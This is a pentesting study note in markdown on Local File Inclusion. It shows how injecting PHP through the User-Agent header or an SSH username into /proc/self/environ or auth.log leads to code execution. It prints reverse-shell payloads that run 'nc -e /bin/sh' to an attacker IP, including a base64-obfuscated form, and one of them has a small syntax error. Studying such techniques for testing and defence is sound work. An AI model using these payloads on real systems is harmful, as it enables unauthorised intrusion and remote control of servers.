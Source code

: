 ```yaml
---
title: LFI attack - Local File Inclusion
author: amandaguglieri
draft: false
TableOfContents: true
tag: pentesting, web pentesting
---
```


# LFI attack - Local File Inclusion

## Tools and payloads 

- See updated chart: [Attacks and tools for web pentesting](index-attacks-tools-web-pentesting.md).


## Interesting files

### /proc/self/environ 

This files contain Environment variables. One of those variables might be HTTP_USER_AGENT, which is the user agent used by the client to access the server. So by using a  proxy interceptor  we could modify that header to be, let's say:

```
<?phpinfo()>
```

![Local file inclusion](img/lfi-1.png)


When it comes to get a shell here, we need to use PHP function passthru, which is similar to the exec command:

passthru — Execute an external program and display raw output

In this case, we would be adding in the user agent header the reverse shell:

```
<?passthru("nc -e /bin/sh <attacker IP> <attacker port>") ?> 
```

### /var/log/auth.log  or /var/log/apache2/access.log

If  we have the ability to read a log file, then we can see if we can write in them in a malicious way.

For instance, with /var/log/auth.log, we can try an ssh connection and see how these attemps are recorded on the file. Then, instead of using a real username, I can set some php code:


```
ssh "<?passthru('nc -e /bin/sh <attacker IP> <attacker port>');?>"@<TARGETIP> 
```

But there might be problems with blank spaces, slashes and so on, so one thing you can do is base64 encoded your netcat command, and tell the function to decode it before executing it  

```
# base64 encode your netcat command: nc -e /bin/sh <attacker IP> <attacker port>
ssh "<?passthru(base64_decode'<base64 encoded text>');?>"@<TARGETIP> 
```

Now just get a netcat listener in your kali attacker machine.